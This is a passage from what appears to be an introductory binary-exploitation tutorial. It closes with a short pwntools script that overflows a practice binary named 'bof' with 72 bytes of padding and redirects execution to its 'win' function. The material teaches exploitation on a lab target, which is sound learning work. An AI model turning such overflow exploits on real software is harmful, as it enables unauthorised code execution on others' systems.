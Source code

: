 So what happened there? In our exploit, we define the variable `e` as our ELF file. We can then pick out specific symbols, or functions, as well as addresses from the GOT and PLT. It nicely cleans up our script for when we review it. 

And that's your first exploit! Well done!

Final exploit code:

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

payload = b"A"*72
payload += p64(e.symbols["win"])

p.sendline(payload)
p.interactive()
```

